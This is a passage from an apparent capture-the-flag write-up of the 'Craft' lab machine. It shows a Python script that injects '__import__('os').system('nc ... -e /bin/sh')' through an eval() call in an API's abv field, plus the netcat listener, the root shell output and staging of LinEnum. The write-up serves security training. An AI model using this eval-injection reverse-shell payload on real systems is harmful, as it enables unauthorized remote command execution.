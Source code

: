 `eval` was being called with input from the `abv` field in the sent JSON for the `/brew/` route. This means that whatever `python` expression we enter in the `abv` field, it will be executed. Hm...

I decided to search for how to achieve reverse shell from the `eval` function and I found this [post](https://stackoverflow.com/questions/59519289/python-running-reverse-shell-inside-eval) on StackOverflow.

When `"__import__('os').system('nc 10.10.XX.XX -e /bin/sh')"` is inputted into `eval`, it will cause the box to connect back to us. I used the below `python` script to assist in the sending of the payload.

{% highlight python %}
import requests

authtoken = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False).json()["token"]

exploit = {
        'abv':"__import__(\'os\').system(\'nc 10.10.XX.XX 1337 -e /bin/sh\')",
        "brewer": "string",
        "name": "string",
        "style": "string",
}

headers = {'X-Craft-Api-Token': authtoken}

print(requests.post('https://api.craft.htb/api/brew/', json=exploit, headers=headers, verify=False).content)

{% endhighlight %}

With the script ready, we start our listener:

{% highlight bash %}
$ nc -lvnp 1337
listening on [any] 1337 ...
{% endhighlight %}

And run our exploit script. Back on our listener, we catch the connection. Wait, we are already root?

{% highlight bash %}
listening on [any] 1337 ...                                         
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.110] 46345                       
id 
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
{% endhighlight %}

There was no `root.txt` at `/root`, so what is going on?

# Enumeration (2)

Lets try running [`LinEnum`](https://github.com/rebootuser/LinEnum) to get some insights.

{% highlight bash %}
$ mkdir httpserver
$ cd httpserver
$ cp ~/LinEnum.sh .
$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
{% endhighlight %}
